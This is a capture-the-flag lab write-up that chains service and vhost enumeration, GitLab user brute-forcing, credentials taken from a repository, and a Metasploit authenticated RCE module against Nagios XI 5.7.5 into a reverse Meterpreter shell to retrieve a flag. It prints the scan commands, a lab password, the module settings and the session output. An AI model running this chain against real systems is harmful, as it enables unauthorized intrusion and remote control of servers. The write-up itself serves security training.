

## Attacking Common Applications — Skills Assessment II Write-up


### Objective


The goal of this assessment was to perform service enumeration to identify vulnerable applications, achieve remote code execution (RCE) to gain a foothold, and retrieve the `flag.txt` file.


### Reconnaissance & Service enumeration

The `<target_ip>` and VHost `gitlab.inlanefreight.local` were given.

First I scanned the target for open ports:

```bash
sudo nmap -sS -T4 -p- <target_ip> --open
```

Open ports discovered:

```bash
PORT      STATE    SERVICE
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
389/tcp   open     ldap
443/tcp   open     https
5667/tcp  open     unknown
8060/tcp  open     aero
8180/tcp  open     unknown
9094/tcp  open     unknown
```

Then I ran a default script & version scan on selected ports to get more service info:

```bash
[★]$ sudo nmap -sC -sV -p80,443,5667,8060,8180,9094 <target_ip>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-17 10:45 CDT
Nmap scan report for <target_ip>
Host is up (0.075s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Shipter\xE2\x80\x93Transport and Logistics HTML5 Template 
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp  open  ssl/http   Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Shipter\xE2\x80\x93Transport and Logistics HTML5 Template 
|_http-server-header: Apache/2.4.41 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=<target_ip>/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2021-09-02T01:49:48
|_Not valid after:  2031-08-31T01:49:48
|_ssl-date: TLS randomness does not represent time
5667/tcp open  tcpwrapped
8060/tcp open  http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: 404 Not Found
8180/tcp open  http       nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://<target_ip>:8180/users/sign_in
| http-robots.txt: 54 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /help /s/ /-/profile /-/ide/ 
|_/*/new /*/edit /*/raw
9094/tcp open  unknown
```

Key results:

 - `80` and `443` — Apache/2.4.41 (Ubuntu) — site title: Shipter – Transport and Logistics HTML5 Template
 - `8060` — nginx 1.18.0 (404)
 - `8180` — nginx serving GitLab (sign-in page discovered) — many disallowed paths in robots.txt
 - TLS certificate for `<target_ip>` (issuer: Nagios Enterprises)

No WordPress instances were discovered with superficial checks on the main host (it is needed to answer on the first question to the task).


#### Add given VHost and test GitLab

The task supplied `gitlab.inlanefreight.local`, so I added the VHost to my `/etc/hosts` file:

```bash
echo "<target_ip> gitlab.inlanefreight.local" | sudo tee -a /etc/hosts
```

I opened the GitLab sign-in page and attempted to find valid accounts. I used the Exploit-DB proof-of-concept script for login brute forcing (https://www.exploit-db.com/exploits/49821):

```bash
./exploit.sh --url http://gitlab.inlanefreight.local:8180/ --userlist /opt/useful/seclists/Usernames/cirt-default-usernames.txt
```

This successfully identified the user `root`. The password was not discoverable quickly with that script, so I moved on to other approaches (the password was likely non-default).


#### Hostname discovery (ffuf) → find WordPress VHost

Because the task asked for the **URL of the WordPress instance**, I reasoned there must be another VHost on this IP. I used `ffuf` to fuzz Host headers:

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://<target_ip>:80/ -H 'Host: FUZZ.inlanefreight.local' -fs <baseline_response_size>
```

`ffuf` discovered **two additional VHosts**: `blog.inlanefreight.local` and `monitoring.inlanefreight.local`. I added them to `/etc/hosts`.

WordPress is usually used for blogs, so i did the check:

```bash
[★]$ curl -s "http://blog.inlanefreight.local/" | grep WordPress

<meta name="generator" content="WordPress 5.8" />
								...
```

Output confirmed WordPress 5.8 via generator meta tag. So `blog.inlanefreight.local` is the WordPress instance — this answers the first task.


#### WordPress enumeration

I enumerated the WordPress site with wpscan:

```bash
[★]$ sudo wpscan --url http://blog.inlanefreight.local --enumerate

...
[i] User(s) Identified:

[+] admin
```

User `admin` was found, but no password was obvious, so I needed alternative paths to the final flag.


#### Monitoring VHost → Nagios XI discovery

I navigated to the remaining VHost and was redirected to the `http://monitoring.inlanefreight.local/nagiosxi/login.php` login page.

I tried common default credentials (e.g., `admin`, `nagiosadmin`) and they did not work.


#### GitLab exploration & credential discovery

I registered an account on GitLab (self-registration). After login I navigated to **Projects** → **Explore projects**. I opened the project titled **Nagios Postgresql** and searched the repository files for any password-related strings (`pass` etc.). In the project files I found credentials that later proved useful for logging into Nagios XI:



Using these credentials, I was able to log into the Nagios XI interface.


### Nagios XI discovery and exploitation

Inside the Nagios XI UI I saw the application version in the footer/left corner: **Nagios XI 5.7.5**.

I searched Metasploit for a matching exploit (like `nagios xi 5.7.5`) and selected `exploit/linux/http/nagios_xi_configwizards_authenticated_rce`.

Then configured the module:

```bash
set rhosts <target_ip>
set vhost monitoring.inlanefreight.local
set lhost <attacker_ip>
set password oilaKglm7M09@CPL&^lC
set target 1
```

I always run `check` first:

```bash
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[*] <target_ip>:80 - The target appears to be vulnerable.
```

`check` output indicated the target is Nagios XI 5.7.5 and appeared vulnerable.


#### Exploitation attempts & success

First `run` attempt:

```bash
[*] Started reverse TCP handler on <attacker_ip>:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Exploit completed, but no session was created.
```

I ran it again (sometimes the first attempt fails), and the second `run` succeeded:

```bash
[*] Started reverse TCP handler on <attacker_ip>:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Sending stage (3090404 bytes) to <target_ip>
[*] Meterpreter session 1 opened (<attacker_ip>:4444 -> <target_ip>:52430) at ...
[*] Command Stager progress - 100.00% done (833/833 bytes)

(Meterpreter 1)(/usr/local/nagiosxi/html/config) > 
```

Meterpreter session obtained and I dropped to a shell:

```bash
(Meterpreter 1)(/usr/local/nagiosxi/html/config) > shell
Process 33414 created.
Channel 1 created.
```

#### Locate and read the final flag

I searched for files named like `flag.txt`:

```sh
find / -name flag.txt 2>/dev/null
```

```sh
find / -name *flag*.txt 2>/dev/null
/usr/local/nagiosxi/html/admin/f5088a8*************************_flag.txt
```

Then read the file:

```sh
cat /usr/local/nagiosxi/html/admin/f5088a8*************************_flag.txt
afe3776*************************
```


## Results & Conclusion

I performed service and VHost enumeration against the target and discovered multiple web services, including:

 - **GitLab** on port `8180`
 - a **WordPress** blog at `blog.inlanefreight.local`
 - a **Nagios XI** instance on `monitoring.inlanefreight.local`

The assessment revealed an authenticated RCE path on **Nagios XI 5.7.5** due to a vulnerable configuration-wizard endpoint.

This RCE path, combined with credentials exposed in a **GitLab** project, allowed us to obtain an interactive shell and retrieve the assessment flag.

The chain of issues — name-based VHosts hiding a blog, sensitive information committed to a repository, and an unpatched management application — resulted in a high-impact compromise.


## Key Takeaways

 - Discovered **WordPress** at `http://blog.inlanefreight.local/` (meta generator: WordPress 5.8) and enumerated a user `admin`.
 - Registered an account on **GitLab** (`gitlab.inlanefreight.local`), browsed **Projects** → **Explore projects**, and located plaintext credentials in the **Nagios Postgresql** project files.
 - Used the discovered credentials to authenticate to **Nagios XI** (version 5.7.5).
 - Leveraged the **Metasploit module** `exploit/linux/http/nagios_xi_configwizards_authenticated_rce` (authenticated config-wizard RCE) against `monitoring.inlanefreight.local`. After a second `run` the module delivered a successful Meterpreter session.
 - From the obtained shell I located and read the final flag at `/usr/local/nagiosxi/html/admin/f5088a8*************************_flag.txt`.


